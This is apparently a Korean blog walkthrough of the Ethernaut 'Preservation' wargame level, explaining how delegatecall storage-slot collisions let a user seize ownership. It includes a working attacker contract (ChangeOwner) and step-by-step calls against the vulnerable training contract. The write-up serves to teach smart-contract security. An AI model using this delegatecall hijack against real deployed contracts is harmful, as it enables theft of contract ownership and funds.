 문제 해설에 들어가기 전,  이더넛 내에서 콘솔창과 상호작용을 할 줄 알고 기본적인 리믹스 및 메타마스크 사용법이 숙지되어 있다는 가정 하에 해설을 진행합니다. 필자의 풀이 방법이 절대적은 풀이 방법은 아니므로 이 점 참고하시기 바랍니다.

![대표이미지](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/OpenZeppelin/ethernaut/Heuristic%20Wave%20Ethernaut.png?raw=true)



## Preservation



이번에도 역시 주어진 조건을 읽어보자. 필자의 초월해석이 담겨 있기 때문에, 원문을 직접 읽는 것이 제일 좋다.



이 컨트랙트는 2개의 다른 시간대의 다른 시간을 저장하는 라이브러리를 활용한다. 생성자는 각각의 시간에 저장된 2개의 라이브러리의 인스턴스로 만든다. 이번 단계의 목표는 주어진 인스턴스의 오너권한을 행사할 수 있는 것이다.

 - 솔리디티 문서에 있는 로우레벨 함수 `delegatecall`의 작동방식, 어떻게 체인에서 delegate가 사용되는지 확인해보자. 라이브러리들이 실행 스코프안에서 어떤 영향을 미치는지.
 - delegatecall이 context-preserving하는 것이 무엇을 의미하는지 이해해보자
 - 어떻게 변수를 저장하고 접근하는지 이해하자
 - 다른 데이터 타입들간의 형변환이 어떻게 작용하는지 이해하자.



사실 이번 문제에서 요구하는 위 4가지의 조건은 앞선 문제들에서 우리들이 훈련한 것 들이다. 비록 난이도가 8에 해당하지만, 주어진 조건이 무슨말인지 정확한 이해를 한다면 간단하게 문제를 해결할 수 있다.



### 코드 분석

코드 분석에 들어가기 앞서서, 조건에서 Preservation 컨트랙트는 라이브러리부터 만들어진 2개의 인스턴스 주소로 생성자가 만들어진다. 때문에 우리는 우선적으로 라이브러리를 먼저 확인해 보겠다.



#### LibraryContract.sol

```javascript
// Simple library contract to set the time
contract LibraryContract {
  uint storedTime;  // stores a timestamp 

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

라이브러리 컨트랙트는 setTime 함수를 통해 _time을 변수로 받아 storedTime에 저장하는 아주 간단한 구조를 가지고 있다.



#### Preservation.sol

```javascript
pragma solidity ^0.4.23;

contract Preservation {
  address public timeZone1Library;	// 라이브러리 객체1의 주소, 실제 슬롯 0차지
  address public timeZone2Library;	// 라이브러리 객체2의 주소, 실제 슬롯 1차지
  address public owner; // 실제 슬롯 2차지
  uint storedTime;
  // 라이브러리 컨트랙트의 setTime함수를 호출하기 위한 function signature를 만드는과정
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}
```

당신이 delegatecall의 기능을 알고 있다는 전제하에 만약, 여기까지 코드를 읽고 주어진 문제의 구조를 이해했다면 당신은 이미 문제를 푼 것과 다름 없다.

아래 그림은 이 문제의 구조에 대한 이해를 돕기 위해 이더스캔에서 가져온 그림이다.

![문제에 대한 이더스캔](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/Preservation01.png?raw=true)

각 색깔에 따른 주소를 확인해보면 문제의 구조를 알 수 있다. 아래는 timeZone1,2에 대한 address를 이더스캔에서 확인하여 소스코드가 Library 컨트랙트라는 것을 알 수 있는 사진이다.

![라이브러리 컨트랙트](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/Preservation02.png?raw=true)

이더스캔을 통하여 문제로 주어진 Instance Address에 해당하는 Preservation.sol의 구조를 파악했다.



> #### DelegateCall
>
> 이미 17단계 까지 왔다면 Delegate Call에 대한 기능을 숙지하고 있겠지만 복습차 살펴보겠다.
>
> [stackexchange에서 설명하는 delegatecall](https://ethereum.stackexchange.com/questions/8120/how-does-the-delegatecall-method-work-to-call-to-another-contracts-method) 이 링크를 간략하게 설명하자면 컨트랙트 D에서 컨트랙트 E안에 있는 setN함수를 활용하여 인자 값에 n을 넣으면 컨트랙트 E는 수정이 불가하고 D의 n 값이 set 된다는 이야기를 통해 `delegatecall`을 설명하고 있다.



그렇다면 우리는 Preservation.sol 과 같은 데이터 구조를 갖는 악의적인 컨트랙트를 만들어서 Preservation의 내부함수가 악의적인 컨트랙트를 참조하게 만들면 Preservation 컨트랙트의 내용이 변경된다는 것을 알 수 있다. **즉, Prservation은 복습차 살펴본 예시의 컨트랙트 D에 해당하고 악의적인 컨트랙트는 컨트랙트 E에 해당하는 것이다.**

그러나 여기서 의문점이 들수도 있다. 이미 Preservation 컨트랙트는 timeZone이라는 변수에 각각의 라이브러리 컨트랙트를 참조하고 있다. 이것을 악의적인 컨트랙트의 주소로 바꾸기 위해서는 **setFristTime**함수의 매개변수에 악의적인 컨트랙트의 CA주소를 넣어야 한다! 다시말해, delegatecall의 약점을 활용해서 본래 배포한 컨트랙트의 주소를 바꾸는 것이다.



### 문제 풀이 과정

우선 Preservation 컨트랙트의 코드를 리믹스에 복사하여 문제에 해당하는 CA주소를 넣고 불러온다.

이어서 공격이 될 악의적인 컨트랙트 ChangeOwner.sol을 컴파일하고 배포한다.

```javascript
contract ChangeOwner {	// Preservation.sol과 동일한 데이터 구조를 갖는다.
  address public slot1;	// Preservation에서 timeZone1에 해당, 실제 슬롯 0차지
  address public slot2;	// Preservation에서 timeZone2에 해당, 실제 슬롯 1차지
  address public owner; // Preservation에서 owner에 해당, 실제 슬롯 2차지

  function setTime(uint _time) public {
    owner = tx.origin;	// 이 문장에서 나의 주소로 owner를 변경한다.
  }
}
```

이후 ChangeOwner의 CA주소를 Preservation 컨트랙트의 setFirstTime의 매개변수로 넣고 트랜잭션을 발생시킨다. 이때! delegatecall은 많은 가스비를 필요로 하기 때문에, **직접 가스리밋을 50000이상으로 넉넉히 수정하여 주자!!**

첫번째 setFirstTime 함수 호출이 성공적으로 끝난 다음, timeZone1Library를 확인해 보면 ChangeOwner의 CA주소로 값이 변경되었을 것이다. 이후 한번더 setFirstTime 함수로 owner를 바꾸고 답안지를 제출하면 성공!!



문제를 풀면 다음과 같은 출제의도를 말해준다

> As the previous level, `delegate` mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract "libraries" that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.

delegatecall을 사용하여 라이브러리들을 호출하는 것은 위험하다.  이 예제를 통하여 라이브러리를 빌딩하는데, 라이브러리가 변수의 상태에 접근하거나 저장할 수 없게 하기 위해  `library`키워드를 사용하는 이유를 설명하고 있다. 그동안 library 키워드를 왜 사용하는지 알 수 없었는데 이번 문제를 통해서 확실하게 앎과 동시에 delegatecall 복습을 통하여 더 강력한 활용법을 알 수 있었다. 



그럼, 다음번에는 18단계 Recovery에서 만나요!
